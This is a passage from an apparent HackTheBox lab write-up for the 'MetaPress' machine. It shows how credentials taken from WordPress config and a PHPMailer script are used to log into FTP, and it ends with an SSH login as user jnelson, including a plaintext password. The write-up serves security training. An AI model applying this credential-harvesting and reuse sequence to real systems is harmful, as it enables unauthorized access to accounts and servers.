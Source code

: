 ```php

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
        define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';

```

wp-config contain the ftp service creds

connecting to ftp

```bash
ftp -v ftp.metapress.htb
Connected to metapress.htb.
220 ProFTPD Server (Debian) [::ffff:10.10.11.186]
Name (ftp.metapress.htb:user): metapress.htb
331 Password required for metapress.htb
Password:
230 User metapress.htb logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxr-xr-x   5 metapress.htb metapress.htb     4096 Oct  5 14:12 blog
drwxr-xr-x   3 metapress.htb metapress.htb     4096 Oct  5 14:12 mailer
226 Transfer complete
ftp> cd mailer
250 CWD command successful
ftp> dir
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxr-xr-x   4 metapress.htb metapress.htb     4096 Oct  5 14:12 PHPMailer
-rw-r--r--   1 metapress.htb metapress.htb     1126 Jun 22 18:32 send_email.php
226 Transfer complete
```

In the mail directory has a sendmail.php file it contain user creds

```php
$mail->Host = "mail.metapress.htb";
$mail->SMTPAuth = true;                          
$mail->Username = "jnelson@metapress.htb";                 
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";                           
$mail->SMTPSecure = "tls";                           
$mail->Port = 587;
```

Taking ssh as jnelson
